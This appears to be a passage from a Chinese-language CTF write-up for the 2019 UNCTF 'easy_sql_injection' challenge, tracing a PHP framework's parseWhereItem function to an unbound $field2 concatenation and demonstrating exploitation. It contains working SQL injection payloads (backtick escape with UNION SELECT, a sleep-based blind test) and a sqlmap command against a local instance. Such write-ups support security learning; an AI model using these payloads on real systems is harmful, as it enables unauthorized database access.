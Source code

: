 ParseWhere，继续跟入：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/0f5a90e98fc789f14c36b627e56a87c2.png)

这里关键是parseWhereItem 函数，进去看看：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/d74ca8e4f51af4860eed249460e61d4a.png)

简单的分析一下：这里的 $val
是我们可控的值，可以是一个数组。如果是数组，is_scalar 就会返回 false，就不如进入
bind了。这个bind是 pdo的预处理，然后下面会根据 $exp 的值执行了一些操作，这里
$exp 也是我们可控的值，所以我们可以跟几个函数看看有没有注入的地方：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/a96fa5e5d4690b78f33442af5819d230.png)

分析后我们会看见，大部分函数都在函数内有绑定参数，但是有一个函数：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/f60cf7634e1b61065f89538925a83d14.png)

这里直接将 $field2 拼接进了字符串中，可能会导致注入。

我们试试看，回到 index.php中：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/9be47363005416d066b79d45a38c5bf6.png)

传入 keyword：keyword[]=column&keyword[1][]==&keyword[1][]=abcd%27

在本地实验一下，可以输出一下sql语句：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/5e8ad0ae885776ba40a92d2eb2acbb3e.png)

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/ea4c3dce6374c67651b1c38ec2770482.png)

可以看到这里被 **`** 包裹住了，我们可以逃逸出来，我们传入：

```
keyword[]=column&keyword[1][]==&keyword[1][]=abcd`) union select 1,2%23
```

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/42411d349e4a595592e675a94b894ad1.png)

这里 abcd 因为被
反引号包裹会被作为一个字段，所以要用一个已经存在的字段，否则会报错，我们可以猜一个字段名，比如id。

改一下语句，改成：

```
id`) union select 1,sleep(3)%23
```

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/30518999ae15aa1b577cf77963d6f8ca.png)

延时成功，证明可以使用盲注，我们可以上 sqlmap了：

执行语句：

```
python sqlmap.py -u "http://127.0.0.1/?keyword[]=column&keyword[1][]==&keyword[1][]=id`) union select 1,2*%23"
```
